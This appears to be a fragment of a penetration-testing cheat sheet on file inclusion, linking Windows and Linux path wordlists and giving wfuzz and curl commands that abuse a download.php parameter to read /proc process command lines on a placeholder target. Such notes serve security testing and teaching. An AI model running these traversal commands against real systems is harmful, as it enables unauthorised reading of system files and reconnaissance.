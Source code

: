 ### :open_file_folder: Windows

- https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

### :open_file_folder: Linux

- https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt

### :open_file_folder: [Proc File System](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/)

```bash
wfuzz -u http://<target ip>/download.php?downloadurl=/proc/FUZZ/cmdline -z range,1-1000 --hw 1

curl http://<target ip>/download.php?downloadurl=/proc/824/cmdline --output service.txt
```
